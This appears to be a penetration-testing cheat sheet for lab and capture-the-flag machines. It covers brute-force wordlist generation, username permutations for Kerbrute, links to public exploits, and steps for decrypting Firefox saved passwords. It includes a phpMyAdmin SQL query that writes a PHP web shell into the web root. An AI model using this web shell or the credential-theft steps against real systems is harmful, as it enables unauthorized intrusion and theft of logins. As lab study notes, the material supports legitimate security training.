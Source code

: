 ```
awk '{print $0; print $0"2019"; print $0"25"}' hello (To append 2019 and 25 and default one in every pass)

crunch 6 6 -t Lab%%% > wordlist
O/P 
Lab000 
Lab001 
Lab002 
Lab003 
Lab004 
Lab005 
Lab006
```
    
IF YOU NEED USERNAMES FOR BRUTEFORCE LIKE KERBRUTE OR ANYTHING AND YOU HAVE FIRST AND LAST NAME FOR EG: Fergus Smith,  
CREATE A WORDLIST LIKE,
Fergus Smith 
FSmith 
F.Smith

## GPG DECODE
```
gpg –batch –passphrase HARPOCRATES -d login.txt.gpg
```
## OPENSSL PUBLIC KEY LOGIN VIA SSH
Reference : https://gupta-bless.medium.com/walkthrough-of-w34kn3ss-machine-e7abed592b01

## MOODLE Exploit
Reference : https://medium.com/egghunter/goldeneye-1-vulnhub-walkthrough-f31d80a5267b

## Nibbleblog
- IPPSEC NIBBLES HTB

## PHPMYADMIN SQL Query to RCE
```
SELECT"<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"> <INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY> </HTML>"INTOOUTFILE'/var/www/html/wordpress/cmd.php'
```
Note : Check the right path and will work only on writable directory
## IPERIUS BACKUP:
https://www.exploit-db.com/exploits/46863 
## OPENSMTPD RUNNING AS ROOT?
https://www.exploit-db.com/exploits/48051
## FIREFOX DECRYPT
```
cd .mozilla/firefox/by2pyaht.default-esr  
copy login.json and key4.db to kali  
git clone https://github.com/unode/firefox_decrypt 
python3 firepwd.py -d mozilla  
We get ssh username and pass
```
## EYESOFNETWORK
https://rioru.github.io/pentest/web/2017/03/28/from-unauthenticated-to-root-supervision.html 
